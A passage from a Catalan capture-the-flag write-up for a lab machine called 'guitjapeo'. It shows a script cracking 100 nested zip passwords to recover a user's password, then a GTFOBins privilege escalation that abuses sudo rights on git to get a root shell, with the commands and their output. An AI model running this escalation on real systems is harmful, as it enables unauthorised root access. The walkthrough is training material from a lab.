Instal·lem les dependències del script, en el meu cas només vaig haver d'instal·lar `pyzipper` amb `pip`, guardem el script a la mateixa carpeta que els fitxers `archivo.zip` i `password.txt`, i l'executem.

El script ens demana la primera contrasenya, però la resta ho fa sol.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python3 crackzip.py
Introdueix la contrasenya inicial per a 'archivo.zip': !!//mnsvvvD_

Nivell 1:
Contrasenya obtinguda: d]3/9]S<#Lho

Nivell 2:
Contrasenya obtinguda: 5ifBA*TIu{p@

Nivell 3:
Contrasenya obtinguda: QWr8g_YUxB5w

Nivell 4:
Contrasenya obtinguda: p+Fl4|!<I}>{

Nivell 5:
Contrasenya obtinguda: TU$Z$v1W^poj

Nivell 6:
Contrasenya obtinguda: O_`+^u]aPqRb

Nivell 7:
Contrasenya obtinguda: GA.]Y:8^dlNO

...
...

Nivell 100:
Últim nivell assolit al nivell 100.

Contingut de l'últim 'password.txt':
L'última contrasenya és: {[XY2P_oODN)

Procés completat.
```

### Sudo Git

Obtenim la contrasenya de lenam `{[XY2P_oODN)`, ara podem executar el comandament sudo.

```bash
lenam@guitjapeo:~/.local/bin/web$ sudo -l 
[sudo] password for lenam: 
Matching Defaults entries for lenam on guitjapeo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User lenam may run the following commands on guitjapeo:
    (root) /usr/bin/git
```

Veiem que podem executar el comandament `git` (com no podia ser d'una altra forma) com l'usuari root.


A GTFOBins trobem aquest binari on ens mostra algunes formes de poder utilitzar-lo per elevar privilegis, algunes utilitzen el manual o ajuda amb `less` no funcionarà perquè no estan instal·lats els manuals de git.

L'opció (e) ens funciona correctament.

```bash
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
sudo git "--exec-path=$TF" x
```

L'executem i obtenim shell amb root.

```bash
lenam@guitjapeo:~/.local/bin/web$ TF=$(mktemp -d)
lenam@guitjapeo:~/.local/bin/web$ ln -s /bin/sh "$TF/git-x"
lenam@guitjapeo:~/.local/bin/web$ sudo git "--exec-path=$TF" x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
f6aXXXXXXXXXXXXXXXXXXXXXXbb
```